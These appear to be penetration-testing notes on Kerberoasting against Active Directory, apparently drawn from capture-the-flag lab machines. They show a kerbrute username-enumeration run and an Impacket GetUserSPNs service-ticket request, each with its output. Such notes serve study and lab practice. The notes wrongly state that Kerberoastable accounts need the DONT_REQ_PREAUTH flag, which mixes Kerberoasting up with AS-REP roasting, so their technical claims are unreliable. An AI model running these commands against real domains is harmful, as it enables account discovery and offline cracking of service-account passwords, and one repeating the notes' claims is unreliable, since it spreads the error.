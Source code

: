 # Kerberoasting

Kerberoasting is a type of attack against Microsoft Active Directory environments that involves extracting service account passwords from Kerberos tickets. Service accounts are often used to run automated processes and scheduled tasks, and because they often have high privileges within an organization, they can be a valuable target for attackers.

The basic method of kerberoasting involves requesting a ticket for a service account, then cracking the encrypted password hash that is included in the ticket.

# Pre-Requisites

Kerberoastable users need to have the `DONT_REQ_PREAUTH` flag set.

``` 
$   kerbrute userenum -d MCDONALDS.LOCAL SecLists/Usernames/xato-net-10-million-usernames.txt --dc dc-01.htb                                                            


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/08/23 - Ronnie Flathers @ropnop

2023/02/08 14:26:09 >  Using KDC(s):
2023/02/08 14:26:09 >   10.10.10.175:88

2023/02/08 14:26:45 >  [+] VALID USERNAME:       administrator@MCDONALDS.LOCAL
2023/02/08 14:30:08 >  [+] VALID USERNAME:       dudi@MCDONALDS.LOCAL
2023/02/08 14:30:32 >  [+] VALID USERNAME:       sagi@MCDONALDS.LOCAL
2023/02/08 14:31:49 >  [+] VALID USERNAME:       ido@MCDONALDS.LOCAL
2023/02/08 14:48:58 >  [+] VALID USERNAME:       overlord@MCDONALDS.LOCAL
```

# SPNs

If a user account has an SPN, we can request a service ticket on behalf of it, and crack it offline.

```
python GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168 -target-domain scrm.local -dc-host dc1.scrm.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
